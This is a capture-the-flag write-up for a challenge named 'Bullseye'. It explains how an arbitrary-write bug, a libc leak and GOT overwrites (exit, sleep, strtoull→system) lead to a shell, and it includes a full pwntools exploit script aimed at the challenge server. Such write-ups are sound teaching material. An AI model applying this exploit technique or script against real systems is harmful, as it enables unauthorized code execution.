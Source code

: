 # Bullseye

It takes an address and number in hex, then writes the number to the address. The hex is parsed by strtoull which will be useful later.

After writing, it calls `sleep(0xf)`, then prints the address of alarm and calls exit. The address of alarm gives us a libc leak. Partial RELRO, so GOT overwrite is possible. Here's what we do:

1. Overwrite exit@got with main. When it attempts to exit after printing a libc pointer to us, it'll call main, giving us another write
2. Overwrite sleep@got with main\(we couldn't do this before as alarm is called after sleep but we dont need anymore leaks\) so that the alarm doesnt catch us out and our exploit is quick from then on
3. Overwrite strtoull@got with system so next time it tries to turn our input to hex it calls system on it
4. Enter /bin/sh as the next address

Shell will be popped, we can cat flag.txt.

```python
from pwn import *
import time
e = ELF("./bullseye")
libc = e.libc if args.LOCAL else ELF("/home/kali/Tools/libc-database/libs/libc6_2.30-0ubuntu2.2_amd64/libc.so.6")
p = e.process() if args.LOCAL else remote('jh2i.com', 50031)
p.recvlines(2)
def write(addr,value,sleep=False):
    output = None
    p.recvline()
    p.sendline(hex(addr))
    p.recvline()
    p.sendline(hex(value))
    if sleep:
        log.info(f"Sleeping...")
        time.sleep(0xf)
        log.info(F"Finished with sleep")
        output = int(p.recvline(),16)
    p.recvlines(2)
    return output
# Set exit to main to get another leak and call main again for more writes(one write? says WHO)
leak = write(e.got['exit'],e.symbols['main'],sleep=True)
log.info(f"Libc leak: {hex(leak)}")
libc.address = leak - libc.symbols['alarm']
log.info(f"Libc base: {hex(libc.address)}")
# Set sleep to main because we dont need more leaks and its annoying
write(e.got['sleep'],e.symbols['main'])
# Let's start the main exploit process
# Overwrite strtoull with system so whenever it tries to parse input, it'll call system
write(e.got['strtoull'],libc.symbols['system'])
# Now we enter /bin/sh into prompt
p.recvline()
p.sendline("/bin/sh")
p.interactive()
```


